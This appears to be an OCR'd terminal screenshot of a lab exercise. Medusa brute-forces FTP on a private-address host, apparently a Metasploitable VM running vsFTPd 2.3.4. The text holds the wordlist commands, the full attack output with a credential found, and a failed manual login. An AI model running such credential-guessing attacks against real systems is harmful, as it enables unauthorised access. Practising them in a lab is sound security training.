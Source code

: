                                                                                                                        
┌──(kali㉿kali)-[~]
└─$ pwd          
/home/kali
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ medusa -h 10.0.2.5 -U users.txt -P pass.txt -M ftp -t 6
Medusa v2.3_rc1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: 123456 (1 of 4 complete)
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 1 complete) Password: msfadmin (1 of 4 complete)
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 1 complete) Password: password (2 of 4 complete)
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (3 of 4 complete)
2025-10-26 10:54:09 ACCOUNT FOUND: [ftp] Host: 10.0.2.5 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (2 of 4 complete)
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: password (3 of 4 complete)
2025-10-26 10:54:09 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (4 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: 123456 (1 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: qwerty (4 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: password (2 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 4 complete) Password: qwerty (3 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
2025-10-26 10:54:12 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: 123456 (1 of 4 complete)
2025-10-26 10:54:14 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (2 of 4 complete)
2025-10-26 10:54:14 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (3 of 4 complete)
2025-10-26 10:54:14 ACCOUNT CHECK: [ftp] Host: 10.0.2.5 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ ftp 10.0.2.5
Connected to 10.0.2.5.
220 (vsFTPd 2.3.4)
Name (10.0.2.5:kali): mfsadmin
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
ftp> 
ftp> 
ftp> quit
221 Goodbye.
                                                                                                                       